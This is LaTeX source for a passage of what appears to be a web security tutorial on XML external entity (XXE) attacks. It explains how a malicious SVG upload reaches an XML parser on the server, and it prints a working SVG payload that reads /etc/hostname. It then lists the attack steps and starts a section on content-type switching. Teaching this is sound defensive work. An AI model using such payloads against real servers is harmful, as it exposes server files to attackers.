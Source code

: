 \documentclass{article}
\begin{document}
\subsubsection{The Attack Scenario}
An application might allow users to upload images and process them server-side. Even if the application expects PNG or JPEG format, the image processing library might also support SVG images. Since SVG uses XML, an attacker can submit a malicious SVG image to reach hidden XXE attack surface.

\subsubsection{SVG XXE Payload Example}
\begin{lstlisting}[language=XML, caption=Malicious SVG File for XXE]
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/hostname" > 
]>
<svg width="128px" height="128px" 
     xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink" 
     version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
\end{lstlisting}

\begin{infobox}
\begin{enumerate}
    \item Attacker uploads malicious SVG file
    \item Server processes the image using an XML-capable library
    \item The XXE payload executes when the SVG is parsed
    \item File contents are displayed within the SVG text element or exfiltrated
\end{enumerate}
\end{infobox}

\subsection{XXE Attacks via Modified Content Type}

\subsubsection{The Observation}
Most POST requests use default content types from HTML forms, such as \texttt{application/x-www-form-urlencoded}. However, some web sites that expect this format will \textbf{tolerate other content types}, including XML.
\end{document}

